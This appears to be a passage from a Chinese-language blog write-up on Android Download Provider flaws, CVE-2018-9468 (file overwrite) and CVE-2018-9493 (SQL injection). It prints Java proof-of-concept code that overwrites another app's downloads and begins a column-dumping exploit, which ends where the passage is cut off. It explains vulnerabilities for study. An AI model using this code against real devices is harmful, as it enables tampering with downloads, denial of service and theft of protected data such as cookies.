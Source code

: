 upload successful

通过openFile（）我们甚至可以写文件:

ContentResolver res = getContentResolver();
Uri uri = Uri.parse("content://downloads/my_downloads/1493");
Cursor cur = res.query(uri, null, null, null, null);
try {
if (cur != null && cur.getCount() > 0) {
cur.moveToFirst();
String rowData = cur.getString(cur.getColumnIndex("_data"));

        if (rowData != null && !rowData.isEmpty()) {
            try {
                ParcelFileDescriptor fd = res.openFileDescriptor(uri, "rwt");
                FileWriter fw = new FileWriter(fd.getFileDescriptor());
                DateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
                fw.write(dateFormat.format(new Date()));
                fw.write("\n(Any arbitrary contents can be placed here...)");

                log(LOG_SEPARATOR + "Overwritten file: " + rowData);
                fw.flush();

                // Closing the file descriptor will crash the Android Media process
                if (closeFile)
                    fd.close();
                else
                    mFileDescriptors.add(fd);
            } catch (FileNotFoundException e) {
                e.printStackTrace();
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else
            log(LOG_SEPARATOR + "Cannot overwrite file. The path is empty.");
    } else
        log(LOG_SEPARATOR + "Cannot overwrite file. The download ID " + id + " does not exist.");
} finally {
if (cur != null)
cur.close();
}
这样，利用CVE-2018-9468就可以在下载完成的瞬间替换成攻击者的文件，进行中间人攻击了。作者利用这个漏洞完成了对GooglePlay进行Dos攻击、对gmail的附件进行hijack等攻击。

CVE-2018-9493: Download Provider SQL注入
Download Provider中的以下columns是不允许被外部访问的，例如CookieData，但是利用SQL注入漏洞可以绕过这个限制。

projection参数存在注入漏洞，结合二分法可以爆出某些columns字段的内容。

漏洞修复前后的diff如下：

upload successful

漏洞利用代码如下：

private void dump(boolean dumpProtectedColumns) {
ContentResolver res = getContentResolver();
Uri uri = Uri.parse(MY_DOWNLOADS_URI);
Cursor cur;
